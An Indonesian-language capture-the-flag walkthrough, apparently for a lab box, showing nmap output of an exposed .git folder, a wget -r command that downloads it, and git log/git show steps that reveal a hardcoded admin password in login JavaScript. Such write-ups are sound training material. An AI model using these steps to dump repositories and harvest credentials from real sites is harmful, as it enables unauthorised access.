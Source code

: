 PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.4.92:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
----------------------------------------------------------------------------
Ketika discan dengan gobuster bisa terlihat ada folder git yang bisa kita buka

Lalu kita bisa mengambil keselurahan folder git tersebut
wget -r http://10.10.4.92/.git/      

Melihat history log git. Ketika kita scroll terdapat pesan bahwa sedang membuat login page, catat commit_idnya
git log


commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!



Lalu gunakan perintah di bawah untuk melihat keseluruhan passwordnya
git show commit_id
git show 395e087334d613d5e423cdf8f7be27196a360459


Maka akan menampilkan keseluruhan source code login page. Ketika kita scroll maka akan terlihat javascript yang mengatur loginnya

```
 <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
+        ) {
+          document.cookie = "login=1";
+          window.location.href = "/dashboard.html";
+        } else {
+          document.getElementById("error").innerHTML =
+            "INVALID USERNAME OR PASSWORD!";
+        }
+      }
+    </script>
```


